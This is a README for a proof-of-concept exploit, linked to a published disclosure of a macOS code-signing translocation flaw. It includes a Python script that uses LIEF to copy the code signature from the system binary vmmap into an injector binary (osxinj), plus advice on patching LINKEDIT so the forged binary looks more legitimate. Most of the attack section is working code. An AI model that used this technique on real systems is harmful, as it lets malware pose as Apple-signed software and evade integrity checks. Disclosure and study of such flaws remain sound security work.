 # Rotten-Apples
macOS codesigning translocation vulnerability. 

Original article:
https://occamsec.com/rotten-apples-macos-codesigning-translocation-vulnerability/

This document serves to explain how to use the PoC described in the Rotten Apples vulnerability disclosure.

## The Target Binary
Compile it, sign it, run it once. Best done with XCode as it automates this process.

## The Victim Binary

Use the `lipo` command line tool to extract the x64 arch of a system binary of your choice. Make sure that the binary is a thin binary and not a fat binary with just one architecture, as LIEF has problems with the new universal file format.

### Binary Modification

```python
# -*- coding: utf8 -*-
# /usr/bin/python3
# RottenApples.py - macOS Code-Signature Translocation vulnerability
# 2021-09-21
# Dependencies: lief (pip3 install lief), x64 Mac
# License: WTFPL
import lief, sys

app = lief.parse('vmmap-x64')
f = open('vmmap-x64', 'rb')
f.seek(app.code_signature.data_offset)
signature = f.read(app.code_signature.data_size)
with open("code.sig", "wb+") as outfile:
    outfile.write(signature)
    outfile.close()
    print("Wrote detached signature.")

app2 = lief.parse('osxinj')
f2 = open('osxinj', 'r+b')
f2.seek(app2.code_signature.data_offset)
f2.write(signature)
f2.close()
```

The above snippet should be enough for transplanting the code signature into your target. In this example, we're transplanting the signature from vmmap into scen's osxinj.

Further steps to make the binary appear more appear more legitimate to the system can be accomplished by patching `_LINKEDIT` to mirror that of the victim binary. This will fix some of the CDHashes.
